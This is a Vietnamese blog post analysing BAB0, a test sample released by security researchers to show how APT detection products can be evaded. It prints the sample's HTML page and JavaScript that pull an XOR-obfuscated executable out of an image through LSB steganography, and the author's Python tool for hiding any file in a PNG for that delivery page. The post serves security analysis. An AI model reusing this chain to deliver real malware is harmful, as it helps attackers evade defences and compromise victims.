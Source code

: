 ```yaml
---
title: 'BAB0 &#8211; Tàng hình trước các hệ thống phòng chống tấn công có chủ đích'
author: tienpp
layout: post
categories:
  - news
excerpt: Chưa đầy một tháng trước. MRG Effitas và CrySyS Lab công bố một thông tin gây hoang mang các nhà sản xuất sản phẩm phát hiện tấn công có chủ đích (APT attack detection) như SourceFire (Cisco), Checkpoint, Damballa, Fidelis XPS, FireEye, Fortinet, LastLine, WildFire (Palo Alto), Deep Discovery (Trend Micro) và Websense. Hai ngày trước họ đã công bố các mẫu thử của mình.
thumbnail: /assets/2014/12/Unico_Anello1.png
tags:
  - APT attack
  - APT
  - BAB0
  - malware
---
```

***Chưa đầy một tháng trước. MRG Effitas và CrySyS Lab công bố một thông tin gây hoang mang các nhà sản xuất sản phẩm phát hiện tấn công có chủ đích (APT attack detection) như SourceFire (Cisco), Checkpoint, Damballa, Fidelis XPS, FireEye, Fortinet, LastLine, WildFire (Palo Alto), Deep Discovery (Trend Micro) và Websense. Hai ngày trước họ đã công bố các mẫu thử của mình. Chúng ta sẽ lượt sơ qua sự kiện này và xem xét mẫu thử của họ làm những gì.***

Tấn công có chủ đích và hệ thống phát hiện tấn công có chủ đích là gì?
----------------------------------------------------------------------

Tấn công có chủ đích (target attack/APT attack - advanced persistent threats) là thể loại tấn công mà mục tiêu là người dùng máy tính (nhân viên của công ty, cá nhân, chính trị gia...) được kẻ tấn công điều tra kĩ lưỡng và có những thủ đoạn tấn công lâu dài, khó phòng chống.

Các cuộc tấn công có chủ đích thường sử dụng các mã khai thác lỗi phần mềm và các phần mềm độc hại để nắm quyền kiểm soát lâu dài đối tượng bị tấn công.

Dựa vào những tính chất trên, các hệ thống chống tấn công có chủ đích chủ yếu hoạt động dựa trên: sự phát hiện dấu hiệu mã khai thác và phần mềm độc hại, phân tích dữ liệu mạng và phát hiện dấu hiệu liên lạc của phần mềm độc hại với trung tâm điều khiển[^detectapt].

bab0 và cách nó qua mặt các hệ thống phòng thủ
----------------------------------------------

Được giới thiệu trong một báo cáo mới đây chưa đầy 1 tháng[^testapt]. bab0 có kết quả kiểm tra là qua mặt tất cả các hệ thống phòng chống tấn công có chủ đích tốt nhất trên thị trường. Mới đây nhóm tác giả, họ đã công bố một mẫu của bab0[^introbab0], với những thiết kế bên trong như sau:

 - Không dùng một mã khai thác nào.
 - Phần mềm độc hại - để kiểm soát đối tượng - được chuyển đến nạn nhân thông qua một trang web giản đơn. Phần mềm này được nhúng trong một tệp ảnh bằng thủ thuật ẩn mình (Steganography). Không một hệ thống/phần mềm chống virus nào phát hiện điều này.
 - Phần mềm độc hại có cơ chế liên lạc với trung tâm điều khiển, cũng bằng cách ẩn các dữ liệu cần lưu chuyển qua các dữ liệu như là người dùng đang duyệt một diễn đàn.

Khám phá bab0
-------------

Bây giờ, chúng ta sẽ xem xét kĩ hơn về mặt bên trong của mẫu bab0 này. Đầu tiên là phần vận chuyển phần mềm điều khiển. Phần này là một trang HTML với một ảnh nền chứa phần mềm độc hại và một nhóm mã javascript để trích phần mềm đó. Giao diện của trang HTML này như hình dưới

![Hình tải về bab0]( {{site.url}}/assets/2014/12/save.png) 

Mã nguồn tệp index.html rất đơn giản:

    <!DOCTYPE html>
    <html lang="en">
      <head>
        <meta charset="utf-8">
        <title>Babo</title>
        <link rel="stylesheet" href="style.css">
        <script src="saver.js"></script>
        <script src="image.js"></script>
      </head>
      <body>
        <img id="foreground" src="hide.png">
      </body>
    </html>

Phần quan trọng nhất có lẽ là phần trích xuất tệp tin từ tệp ảnh nền trong image.js:

    // Getting the pixel data
      var canvas = document.createElement('canvas');
      canvas.width = buttonWidth;
      canvas.height = buttonHeight;
      var context = canvas.getContext("2d");
      context.fillStyle = 'rgba(255,255,255,255)';
      context.fillRect(0, 0, buttonWidth, buttonHeight);
      context.drawImage(img, 0, 0);
      var pixels = context.getImageData(0, 0, buttonWidth, buttonHeight).data;
    
      // Stego
      var bits = [];
      for (var i = 0; i < pixels.length; i++) {
        if (i % 4 != 3) {
          bits.push(pixels[i] & 1);
        }
      }
      var data = new ArrayBuffer((bits.length / 8) | 0);
      var bytes = new Uint8Array(data);
      for (var j = 0; j < bits.length / 8; j++) {
        var byte = 0;
        for (var k = 0; k < 8; k++) {
          byte += bits[j*8+k] << (7-k);
        }
        bytes[j] = byte;
      }
    
      // De-bab0-ing
      var key = [0xba, 0xb0];
      for (var l = 0; l < bytes.byteLength; l++) {
        bytes[l] ^= key[l % key.length]
      }


Đây chỉ là một thủ thuận ẩn giấu thông tin vào hình (LSB steganography) đơn giản: toàn bộ payload được XOR với khóa **0xbab0**. Tôi có viết sẵn một công cụ để tạo ra tệp tin hình chạy được với mã trích xuất này. Các bạn có thể sử dụng để thử nhúng bất kì tệp tin ứng dụng nào vào một tệp hình ảnh ưa thích với khóa bất kì. Nhớ là thay khóa tương ứng vào tệp image.js.

    from PIL import Image
    from bitstring import BitArray
    import math
    
    def xor(m, k):
    	enm = ''
    	for i in range(len(m)):
    		enm += chr(ord(m[i])^ord(k[i%len(k)]))
    	return enm
    	
    def hideBit(pixel, bit):
    	print bit,
    	print int(math.fmod(pixel,2))
    	if int(math.fmod(pixel,2)) != int(bit):
    		pixel = pixel + 1
    	print pixel
    	return pixel
    def pad(ctext):
    	x = len(ctext) % 3
    	print x
    	ctext = ctext + '0'*(3 - x)
    	return ctext
    
    def hideMessage(imgPath, outPath, text, key):
    	##make the cipher text to hide
    	ctext = BitArray(bytes=xor(text, key)).bin
    	ctext = pad(ctext)
    	##set up the image, based on the path
    	img = Image.open(imgPath)
    	pic = img.load()
    
    	##make a list of all pixels
    	pixelList = list(img.getdata())
    
    	if len(ctext) > len(pixelList)*3:
    		print 'image is too small, expected ' + ctext/3 + ' pixels'
    		return 0
    	##loop through the message and hide each bit
    	n = 0
    	for i in range(len(pixelList)):
    		print n, len(ctext)
    		if n >= len(ctext):
    			break
    		##grab the pixel
    		pixel = pixelList[i]
    		##hide the bit in the pixel
    		pixelList[i] = hideBit(pixel[0], ctext[i*3+0]), hideBit(pixel[1],ctext[i*3+1]), hideBit(pixel[2], ctext[i*3+2])
    		print pixelList[i]
    		n += 3
    		#raw_input()
    	##overwrite the new pixels onto the picture
    	img.putdata(pixelList)
    
    	try:
    		img.save(outPath, "PNG")
    	except IOError:
    		print "Unable to write back"
    
    def main():
    	imagePath = 'test.png'
    	outPath = 'hide.png'
    	message = open('file').read()
    	key = 'BB'
    	message = hex(len(message))[2:].rjust(8, '0').decode('hex')[::-1] + message
    	hideMessage(imagePath, outPath, message, key)
    
    	img1 = Image.open(imagePath)
    	img2 = Image.open(outPath)
    
    	print imagePath, img1.format, "%dx%d" % img1.size, img1.mode
    	print outPath, img2.format, "%dx%d" % img2.size, img2.mode
    
    ##Starts executing here
    main()

Sau khi trích xuất ra thì tệp tin được đưa ra dưới dạng tải về, các chi tiết này không có gì quan trọng được thể hiện ở trong tệp image.js

Phần mã độc mà nhóm trên cung cấp chỉ là một giả lập đơn giản, chủ yếu là thử nghiệm cách thức giao tiếp thông qua cách giả là một giao tiếp bình thường tới một diễn đàn là trung tâm điều khiển. Tôi có chạy trong cuckoo sandbox và kết quả ở đây - https://malwr.com/analysis/ZmYyYTVjNzU2YmIyNGFkMzg2MzRiMDRkOGI4ZTEyOTY/ . Đồng thời có đính kèm tệp tin chứa các dữ liệu mạng khi chạy bab0 ở đây - http://www.mediafire.com/download/hba7hpx84pass3w/babo.pcapng

[^detectapt]: [Detecting](http://www.trendmicro.com/cloud-content/us/pdfs/security-intelligence/white-papers/wp-detecting-apt-activity-with-network-traffic-analysis.pdf)  APT Activity with Network Traffic Analysis

[^testapt]: [An independent test](https://blog.mrg-effitas.com/wp-content/uploads/2014/11/Crysys_MRG_APT_detection_test_2014.pdf) of APT attack detection appliances

[^introbab0]: [Anti-APT product test sample "BAB0"](http://blog.crysys.hu/2014/12/anti-apt-product-test-sample-bab0-is-shared-for-security-experts/) is shared for security experts
